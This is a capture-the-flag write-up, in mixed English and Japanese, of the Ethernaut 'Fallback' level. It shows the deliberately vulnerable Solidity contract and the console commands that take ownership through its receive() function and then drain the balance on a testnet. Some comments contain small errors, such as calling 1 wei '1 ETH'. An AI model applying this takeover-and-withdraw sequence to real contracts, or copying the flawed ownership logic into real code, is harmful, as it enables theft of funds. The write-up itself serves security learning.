 Ethernaut 
### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0

How to send Ether when intracting with an ABI<br>
How to send Ether outside of the ABI <br>
Converting to and from wei/Ether units <br>
Fallback methods <br>

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```

1. you claim ownership of the contract 

*contract*...reference of our smart contract 

n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}

contract.address...smartcontract address 

'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'

player...my address 
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}

//Array 0: 0 。現状no valueなのがわかる

await contract.getContribution()

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send <br>
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//1ETH sendでaccount valueが増えているか確認 key:value <br>
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
//Array 0: 1 。

//ownerの確認 <br>
await contract.owner()

//this smartcontract own address<br>
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'

//playerの確認 = まだownerになってない<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

//sendTransaction is special function from web3.js <br>
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//transaction<br>
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177


//Transactionの成功によりcontractのownerが自分にchangeされているのを確認<br>
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'



2.you reduce its balance to 0<br>
//balanceの確認<br>
await getBalance(contract.address)<br>
'0.000000000000000002'

//function withdrawをreturn<br>
//transfer all balance our wallet!<br>
contract.withdraw()

Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68

//balanceが"0"になっているのを確認

await getBalance(contract.address)

'0'

